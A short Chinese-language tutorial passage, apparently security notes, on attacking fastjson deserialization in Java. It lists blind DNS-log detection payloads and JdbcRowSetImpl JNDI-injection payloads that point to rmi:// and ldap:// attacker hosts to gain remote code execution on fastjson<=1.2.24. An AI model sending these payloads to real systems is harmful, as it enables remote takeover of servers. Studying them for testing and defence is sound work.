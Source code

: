 **盲打payload**(dnslog处填写生成的域名)

```json
// 1.2.67版本前
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
// 1.2.67版本后
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}} 
```



### fastjson<=1.2.24

`com.sun.rowset.JdbcRowSetImpl`这个类可以被利用这个类中有很多的`setXXX`方法，我们需要利用的是`setDataSourceName()`和`setAutoCommit()`这两个方法，通过JNDI注入来实现RCE。

payload一般长这样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}
或者
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:port/Exploit","autoCommit":true}
```

攻击时只需要将如下内容发送给fastjson:

![image-20230609101653093](img/image-20230609101653093.png)

payload发送给服务端后会执行setAutoCommit()，setAutoCommit()执行了connct()函数，

![image-20230609101243387](img/image-20230609101243387.png)
